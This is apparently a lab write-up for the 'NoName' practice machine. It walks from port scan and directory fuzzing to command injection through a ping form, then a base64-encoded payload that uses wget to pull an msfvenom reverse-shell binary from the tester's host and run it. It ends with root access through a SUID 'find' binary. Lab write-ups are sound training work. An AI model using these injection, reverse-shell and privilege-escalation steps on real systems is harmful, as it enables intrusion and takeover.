




## NoName: Writeup

Only port 80 is open:

```bash
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

If I go to the website, it openly says the functionality is fake. Burp seems to confirm this.

I fuzz the web root:

```bash
$ gobuster dir -u http://192.168.196.15/ -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 100 -x php,txt,zip,bak
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.196.15/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              bak,php,txt,zip
[+] Timeout:                 10s
===============================================================
2023/03/07 11:31:58 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 279]
/.htaccess.php        (Status: 403) [Size: 279]
/.htaccess.txt        (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.htaccess.bak        (Status: 403) [Size: 279]
/.htaccess.zip        (Status: 403) [Size: 279]
/.htpasswd.txt        (Status: 403) [Size: 279]
/.htpasswd.zip        (Status: 403) [Size: 279]
/.htpasswd.bak        (Status: 403) [Size: 279]
/.htpasswd.php        (Status: 403) [Size: 279]
/admin                (Status: 200) [Size: 417]
/index.php            (Status: 200) [Size: 201]
/server-status        (Status: 403) [Size: 279]
/superadmin.php       (Status: 200) [Size: 152]
```

`/admin` contains nothing special. `/superadmin.php` provides functionality with ping. If I insert my IP, I get a hit:

```bash
$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
11:33:46.304740 IP 192.168.196.15 > 192.168.45.5: ICMP echo request, id 2475, seq 1, length 64
11:33:46.304757 IP 192.168.45.5 > 192.168.196.15: ICMP echo reply, id 2475, seq 1, length 64
11:33:47.307139 IP 192.168.196.15 > 192.168.45.5: ICMP echo request, id 2475, seq 2, length 64
11:33:47.307157 IP 192.168.45.5 > 192.168.196.15: ICMP echo reply, id 2475, seq 2, length 64
11:33:48.308836 IP 192.168.196.15 > 192.168.45.5: ICMP echo request, id 2475, seq 3, length 64
11:33:48.308859 IP 192.168.45.5 > 192.168.196.15: ICMP echo reply, id 2475, seq 3, length 64
```

The trick is to get command injection here. This is what the request looks like unedited:

`pinger=http://192.168.45.5&submitt=Submit+Query`

You can get command injection if you prepend `|`

`pinger=|whoami&submitt=Submit+Query`



I played with multiple reverse shell payloads, none of which worked straight out of the box. I decided to create a reverse shell binary, transfer it to the machine, set its permissions to execute, then called it. I encoded all commands into base64, then decoded them before piping them to bash. 

This is the generic payload:

`pinger=|echo <BASE64_COMMANDS> | base64 -d | bash&submitt=Submit+Query`

Here is the command to generate the reverse shell ELF:

```bash
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.45.5 LPORT=443 -f elf -o shell
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: shell
```

The command to transfer the file to `/tmp`:

Original: `wget http://192.168.45.5/shell -O /tmp/shell`
Base64: `d2dldCBodHRwOi8vMTkyLjE2OC40NS41L3NoZWxsIC1PIC90bXAvc2hlbGw=`

Command to make the file executable:

Original: `chmod +x /tmp/shell`
Base64: `Y2htb2QgK3ggL3RtcC9zaGVsbA==`

Command to call the file after setting up a netcat listener:

Original: `/tmp/shell`
Base64: `L3RtcC9zaGVsbA==`



I get a shell as www-data and collect local.txt:



```bash
www-data@haclabs:/home/yash$ cat local.txt
7bbeeebf8dd8fea92abd2b07c38396ba
www-data@haclabs:/home/yash$ whoami
www-data
www-data@haclabs:/home/yash$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@haclabs:/home/yash$ hostname
haclabs
www-data@haclabs:/home/yash$ hostname -I
192.168.196.15
```

Searching for SUID binaries, I see that `find` is set:

```bash
www-data@haclabs:/tmp$ find / -perm -4000 2>/dev/null
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/find
```

I can become root with this command:

`find . -exec /bin/sh -p \; -quit`

Collect root.txt:


